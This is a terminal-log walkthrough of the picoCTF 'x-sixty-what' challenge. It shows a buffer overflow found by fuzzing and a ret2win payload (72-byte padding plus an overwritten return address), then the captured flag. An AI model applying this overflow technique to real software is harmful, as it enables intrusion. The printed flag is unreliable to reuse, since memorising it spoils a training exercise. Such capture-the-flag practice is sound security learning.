 ──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/x-sixty-what]
└─$ chmod +x vuln      
                                                                                               
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/x-sixty-what]
└─$ ./vuln          
Welcome to 64-bit. Give me a string that gets you the flag: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAa
                                                                                               
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/x-sixty-what]
└─$ ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaa
zsh: segmentation fault  ./vuln
                                                                                               
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/x-sixty-what]
└─$ sudo dmesg           
[sudo] password for secretK: 
[    0.000000] Linux version 6.6.15-amd64 (devel@kali.org) (gcc-13 (Debian 13.2.0-13) 13.2.0, GNU ld (GNU Binutils for Debian) 2.42) #1 SMP PREEMPT_DYNAMIC Kali 6.6.15-2kali1 (2024-04-09)
[    0.000000] Command line: BOOT_IMAGE=/boot/vmlinuz-6.6.15-amd64 root=UUID=62d31794-7e10-4503-b064-1f61831bc953 ro quiet splash

                                                                                               
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/x-sixty-what]
└─$ 



====>>[ 1979.263246] traps: vuln[20485] general protection fault ip:4012d1 sp:7ffeb5d9da48 error:0 in vuln[401000+1000]


Try using "gef"

https://hugsy.github.io/gef/

./GEF for linux ready, type `gef' to start, `gef config' to configure
88 commands loaded and 5 functions added for GDB 13.2 in 0.00ms using Python engine 3.11
gef➤  file ./vuln
Reading symbols from ./vuln...
(No debugging symbols found in ./vuln)
gef➤  r
Starting program: /home/secretK/picoCTF/binary_exploitation/x-sixty-what/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to 64-bit. Give me a string that gets you the flag: 
AAAAAAAA
[Inferior 1 (process 27364) exited normally]
gef➤  pattern
[!] Syntax
pattern (create|search) ARGS
gef➤  



┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/x-sixty-what]
└─$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72+b"\x36\x12\x40")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6@                                                                                               
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/x-sixty-what]
└─$ 

──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/x-sixty-what]
└─$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72+b"\x36\x12\x40")' | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag: 
Please create 'flag.txt' in this directory with your own debugging flag.
                                                                             

                                                                             
┌──(secretK㉿thebattle)-[~/picoCTF/binary_exploitation/x-sixty-what]
└─$ python3 exploit.py saturn.picoctf.net 51724
picoCTF{b1663r_15_b3773r_47a99eda}


